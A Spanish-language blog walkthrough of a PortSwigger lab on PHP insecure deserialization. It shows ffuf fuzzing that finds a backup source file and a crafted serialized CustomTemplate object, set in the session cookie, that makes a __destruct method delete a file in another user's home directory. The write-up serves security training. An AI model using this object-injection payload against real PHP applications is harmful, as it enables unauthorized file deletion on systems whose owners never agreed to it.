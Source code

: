 ```yaml
---
title: Insecure Deserialization Lab 4
date: 2024-12-31 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Insecure Deserialization
tags:
  - Insecure Deserialization
  - Arbitrary object injection in PHP
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Arbitrary object injection in PHP

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en `serialización` y es vulnerable a la `inyección arbitraria de objetos`. Para `resolver` el laboratorio, debemos `crear e inyectar un objeto serializado malicioso` para `eliminar` el archivo `morale.txt` del directorio personal de `Carlos`. Necesitaremos `obtener acceso` al `código fuente` para `resolver` este `laboratorio`. Podemos `iniciar sesión` en nuestra cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-4/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-4/image_2.png)

Si hacemos `Ctrl + u` e `inspeccionamos` el `código fuente` de la web, vemos como en la `parte inferior` hay un `comentario` que hace alusión a la ruta `/libs/CustomTemplate.php`

![](/assets/img/Insecure-Deserialization-Lab-4/image_3.png)

`Fuzzeamos` en busca de `archivos` de `backup` y `encontramos` un `archivo` llamado `CustomTemplate.php~`

```
# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt -u https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 139ms]
.php~                   [Status: 200, Size: 1130, Words: 277, Lines: 39, Duration: 55ms]
.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
:: Progress: [2450/2450] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:33] :: Errors: 0 ::
```

Si accedemos a `https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplate.php~` podemos ver el `código` del `archivo php`. Si nos fijamos bien en el código vemos los métodos `__destruct()` y `__construct()`, los cuales son `métodos mágicos`, en `PHP` es fácil reconocerlos porque llevan `__` siempre en su nombre. Los métodos mágicos en PHP son funciones especiales predefinidas que se `ejecutan automáticamente` en `respuesta` a ciertos `eventos` o `interacciones` con un `objeto`. En este caso el método que nos interesa es el método mágico `__destruct`, que `borra` el `archivo` que esté en la variable `lock_file_path`

![](/assets/img/Insecure-Deserialization-Lab-4/image_4.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`, al hacerlo vemos que el `parámetro session` contiene un `objeto`

![](/assets/img/Insecure-Deserialization-Lab-4/image_5.png)

`Obtenemos` la `longitud` de `/home/carlos/morale.txt`

```
# echo -n '/home/carlos/morale.txt' | wc -c 
```

`Obtenemos` la `longitud` de `lock_file_path`

```
# echo -n 'lock_file_path' | wc -c 
```

`Obtenemos` la `longitud` de `CustomTemplate`

```
# echo -n 'CustomTemplate' | wc -c
```

`Modificamos` el `objeto` cambiando la `clase` a `CustomTemplate` y `añadiéndole` el parámetro `lock_file_path`, de forma que si el archivo `/home/carlos/morale.txt` existe lo borre

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Nos dirigimos al `navegador` y pulsamos `Ctrl + Shift + i`, pegamos el nuevo valor para `session` y `refrescamos` la `web` pulsando `F5`. Si todo ha funcionado correctamente deberíamos haber `borrado` el `archivo` y `completado` el `laboratorio`

![](/assets/img/Insecure-Deserialization-Lab-4/image_6.png)
